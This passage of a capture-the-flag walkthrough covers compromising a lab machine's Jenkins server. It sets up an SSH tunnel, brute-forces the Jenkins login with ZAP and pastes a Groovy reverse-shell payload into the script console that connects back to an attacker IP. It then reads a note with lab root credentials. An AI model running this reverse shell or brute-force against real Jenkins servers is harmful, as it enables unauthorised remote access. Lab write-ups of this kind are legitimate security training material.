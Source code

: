 ```bash

  => There is 1 zombie process.

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug  3 19:56:19 2020 from 10.6.2.56
aubreanna@internal:~$
```

Here we can retrieve the user.txt flag, and we can also see that there is a jenkins server running in `172.17.0.2:8080`

So I made a ssh tunnel using:

```bash
ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.186.60
```

And from there we have a tunnel.

Now we can simply go to localhost:8080 and we are in the login page for jenkins.

From there I try to brute force the login page using ZAP.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/7fecbb84-9598-4ec2-9fa9-5ad99163bcf9/b9960a90-b48b-4c25-ac64-83f5d0a17ac0/Untitled.png)

As you can see I got a request much different from the others, often that means that we have what we want.

Now that we are into Jenkins we just need to go to the script console, and writing this:

```bash
Thread.start {
String host="<your_machine_IP>";
int port=<your_webserver_port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

cmd.exe if is windows, /bin/bash if is linux.

And start the listener in our machine.

Now that we are inside the machine we can go into the opt folder again and take the root credentials:

```bash
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```